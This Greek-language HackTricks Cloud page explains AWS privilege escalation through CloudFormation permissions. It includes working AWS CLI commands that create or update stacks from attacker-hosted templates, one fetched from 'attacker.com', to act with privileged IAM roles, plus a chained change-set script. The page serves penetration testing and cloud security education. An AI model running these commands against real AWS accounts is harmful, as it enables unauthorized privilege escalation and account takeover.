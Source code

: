 # AWS - Προνομιούχα Εξάπλωση με το Cloudformation

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον επαγγελματία με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## cloudformation

Για περισσότερες πληροφορίες σχετικά με το cloudformation, ελέγξτε:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Ένας επιτιθέμενος με αυτές τις άδειες **μπορεί να εξαπλωθεί προνόμια** δημιουργώντας ένα **CloudFormation stack** με ένα προσαρμοσμένο πρότυπο, φιλοξενούμενο στον δικό του διακομιστή, για να **εκτελέσει ενέργειες με τις άδειες ενός συγκεκριμένου ρόλου:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Στην ακόλουθη σελίδα έχετε ένα παράδειγμα **εκμετάλλευσης** με την επιπλέον άδεια **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων στον καθορισμένο ρόλο της υπηρεσίας cloudformation.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Σε αυτήν την περίπτωση μπορείτε να **καταχραστείτε ένα υπάρχον cloudformation stack** για να το ενημερώσετε και να αναβαθμίσετε τα δικαιώματα όπως στο προηγούμενο σενάριο:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας την άδεια `UpdateStack`** σε ένα stack και να πραγματοποιήσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων στον ρόλο της υπηρεσίας cloudformation που έχει καθοριστεί.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Αν έχετε αυτήν την άδεια αλλά **όχι την `iam:PassRole`**, μπορείτε ακόμα να **ενημερώσετε τα stacks** που χρησιμοποιούνται και να καταχραστείτε τους **IAM ρόλους που έχουν ήδη συνδεθεί**. Ελέγξτε την προηγούμενη ενότητα για παράδειγμα εκμετάλλευσης (απλά μην υποδείξετε κανέναν ρόλο στην ενημέρωση).

Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας την άδεια `UpdateStack`** σε ένα stack και να πραγματοποιήσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων στον ρόλο της υπηρεσίας cloudformation που έχει ήδη συνδεθεί.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ένας επιτιθέμενος με δικαιώματα να **περάσει έναν ρόλο και να δημιουργήσει και εκτελέσει ένα ChangeSet** μπορεί να **δημιουργήσει/ενημερώσει ένα νέο stack cloudformation και να καταχραστεί τους ρόλους της υπηρεσίας cloudformation** όπως και με το CreateStack ή το UpdateStack.

Η παρακάτω εκμετάλλευση είναι μια **παραλλαγή της**[ **CreateStack**](./#iam-passrole-cloudformation-createstack) **χρησιμοποιώντας τα δικαιώματα του ChangeSet** για να δημιουργήσει ένα stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας δικαιώματα `ChangeSet`** πάνω σε ένα stack και να πραγματοποιήσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων σε ρόλους υπηρεσίας cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Αυτή είναι παρόμοια με την προηγούμενη μέθοδο χωρίς την περάτωση **ρόλων IAM**, οπότε μπορείτε απλά να **καταχραστείτε ήδη συνδεδεμένους** ρόλους, απλά τροποποιήστε την παράμετρο:
```
--change-set-type UPDATE
```
**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων στον ρόλο υπηρεσίας cloudformation που έχει ήδη συνδεθεί.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Ένας επιτιθέμενος μπορεί να καταχραστεί αυτές τις άδειες για να δημιουργήσει/ενημερώσει StackSets για να καταχραστεί αυθαίρετους ρόλους cloudformation.

**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων σε ρόλους υπηρεσίας cloudformation.

### `cloudformation:UpdateStackSet`

Ένας επιτιθέμενος μπορεί να καταχραστεί αυτήν την άδεια χωρίς την άδεια passRole για να ενημερώσει StackSets και να καταχραστεί τους συνδεδεμένους ρόλους cloudformation.

**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων στους συνδεδεμένους ρόλους cloudformation.

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΠΑΚΕΤΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Συμμετάσχετε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
